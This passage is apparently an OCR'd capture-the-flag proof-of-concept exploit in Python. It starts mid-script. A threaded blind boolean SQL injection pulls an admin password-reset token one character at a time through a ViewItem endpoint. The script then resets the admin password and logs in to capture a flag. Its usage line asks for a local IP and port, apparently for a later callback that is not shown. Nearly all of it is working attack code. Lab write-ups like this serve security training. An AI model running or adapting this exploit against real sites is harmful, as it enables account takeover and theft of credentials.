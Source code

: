 ```python
    return response.status_code == 404
    
TOKEN_LENGTH = 16
MAX_WORKERS = 100 
def exfiltrate_token(session):
    def boolean_sqli(arguments):
        idx, ascii_val, session = arguments
        payload = f"-1 OR BINARY CHAR({ord(ascii_val)}) = (SELECT SUBSTRING(token, {idx + 1}, 1) FROM user where id = 1)#"
        return ascii_val, sqli_exfil_character(session, payload)

    result = ""
    # Go through each character position
    for idx in range(TOKEN_LENGTH):
        # Use MAX_WORKERS threads to test possible ASCII values in parallel
        with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
            CHARSET = string.ascii_letters + string.digits
            responses = executor.map(boolean_sqli, [(idx, ascii_val, session) for ascii_val in CHARSET])

        # Go through each response and determine which ASCII value is correct
        for ascii_val, truth in responses:
            if truth:
                result += ascii_val
                break
    
    return result

# Step 4
def login_user(session, username, password):
    success = False
    data = {"username": username, "password": password}
    response = session.post(BASE_URL + LOGIN_PAGE, data=data)
    if "Success" in response.text:
        success = True
        match = re.findall(r"FLAG1: (\w*)?", response.text)
        if(match):
            print(f"[+] Flag1: {match[0]}")
    return success

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("[USAGE] poc.py http://<targetip> <localip> <localport>")
        exit()
    BASE_URL = sys.argv[1]
    HOST = sys.argv[2] # we'll make use of this and the port later
    PORT = sys.argv[3] 
    
    username = "admin"
    password = "admin"
    # Request Admin
    print("[!] Requesting Admin Password Reset...")
    request_reset(username)
    print("[+] Admin Password Reset Requested, time to get the token")
    ## Exfiltrate Token
    print("[!] ViewItem SQLi to exfilterate the admin token...")
    user_token = exfiltrate_token(SESSION)
    print(f"[+] {username} Token Found: {user_token}")
    ## Change User Password
    print("[!] Changing admin password using that token.")
    if not change_password(user_token, password):
        print("[-] Password Change failed, verify the validity of the token.")
        exit()
```